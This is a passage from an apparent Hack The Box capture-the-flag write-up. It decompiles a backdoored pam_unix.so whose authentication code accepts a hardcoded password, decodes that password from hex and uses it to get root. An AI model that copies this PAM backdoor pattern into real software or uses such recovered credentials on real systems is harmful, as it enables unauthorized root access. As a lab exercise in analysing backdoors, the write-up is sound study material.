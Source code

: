 ##### pam_unix.so - pam_sm_authenticate (parsed)
``` c
        if (iVar2 == 0) {
          backdoor._0_8_ = 0x4533557e656b6c7a;
          backdoor._8_7_ = 0x2d326d3238766e;
          local_40 = 0;
          iVar2 = strcmp((char *)p,backdoor);
          if (iVar2 != 0) {
            iVar2 = _unix_verify_password(pamh,name,(char *)p,ctrl);
          }
          p = (void *)0x0;
        }
```

This is what appears to be two [little endian](https://www.geeksforgeeks.org/little-and-big-endian-mystery/) hex strings that may be the backdoor password.

##### Little Endian Hex
```
0x4533557e656b6c7a
0x2d326d3238766e
```

If we change it to big endian and then put them together and convert it to ASCII, we may have the password!

##### Big Endian Hex
```
7a6c6b657e553345
6e7638326d322d
```

We can then put these two strings together and then echo them out to `xxd`.

``` bash
echo '7a6c6b657e5533456e7638326d322d' | xxd -r -p
```

![](/assets/images/htb-compromised/25_compromised_hextoascii.png)

Cool, we have what might be a working password for the root user.

##### Root Credentials
```
User: root
Pass: zlke~U3Env82m2-
```

We can test this by doing an `su` to root in our existing sysadmin shell.

![](/assets/images/htb-compromised/27_compromised_root_flag.png)
